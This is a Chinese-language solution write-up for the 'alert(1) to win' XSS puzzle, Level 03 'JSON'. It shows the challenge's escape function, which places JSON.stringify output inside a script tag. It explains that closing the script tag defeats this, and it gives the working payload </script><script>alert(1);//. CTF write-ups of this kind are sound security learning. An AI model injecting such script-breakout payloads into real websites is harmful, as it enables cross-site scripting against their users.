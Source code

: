 ## [[alert(1) to win](https://alf.nu/alert1)] [[Level 03 - JSON](https://alf.nu/alert1)] [[解题报告](http://exp-blog.com/2019/08/04/pid-3893/)]

------

## 题目

```javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

------

## 解题报告

从代码可知对输入做了 `stringify` 过滤，关于其功能详见 [这里](https://www.runoob.com/js/javascript-json-stringify.html) 

简单来说就是把 `"` 和 `\` 都转义了，导致无法直接闭合函数。

但是闭合 `<script>` 就可以了，构造 payload 如下 （此处没有闭合后半段的双引号，而是通过行注释 `//` 屏蔽掉）：

```javascript
</script><script>alert(1);//
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/alert/Level%2003%20-%20JSON/imgs/01.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
